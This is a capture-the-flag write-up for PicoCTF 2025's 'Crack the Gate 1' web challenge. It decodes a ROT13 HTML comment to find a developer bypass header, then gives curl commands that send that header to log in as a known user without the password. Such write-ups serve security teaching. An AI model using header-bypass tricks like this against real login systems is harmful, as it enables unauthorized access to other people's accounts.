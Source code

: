 # Crack the Gate 1 (PicoCTF 2025)

## Challenge Description

We are given a web portal with a login form. The goal is to log in as the known user:

```
ctf-player@picoctf.org
```

However, the password is unknown, and normal login attempts return:

```json
{"success": false, "error": "Unauthorized access."}
```

![no](./img/no.png)


The HTML source contains a curious comment:


![source](./img/source.png)

```html
<!-- ABGR: Wnpx - grzcbenel olcnff: hfr urnqre "K-Qri-Npprff: lrf" -->
```

> A common trick is to rotate each letter by 13 positions in the alphabet.

this is the hint given with the challenge 

This hints at a ROT13-encoded message. Decoding it yields:

```
NOTE: Jack - temporary bypass: use header "X-Dev-Access: yes"
```

we can use [rot13](https://rot13.com/) to decode

![rot13](./img/rot13.png)

This indicates the developer left a secret way in: an HTTP header bypass.




---

## with out header

now lets send request to the `login page` using curl with out header

```bash
curl -s -X POST http://amiable-citadel.picoctf.net:55923/login   -H "Content-Type: application/json" -d '{"email":"ctf-player@picoctf.org","password":"anything"}' | jq .
```

![no](./img/unauthrized.png)

---

## Seeding the Header

To unlock access:

use this command 


```bash
curl -s -X POST http://amiable-citadel.picoctf.net:49900/login   -H "Content-Type: application/json" -H "X-Dev-Access: yes" -d '{"email":"ctf-player@picoctf.org","password":"anything"}' | jq .
```

![result](./img/result.png)

---
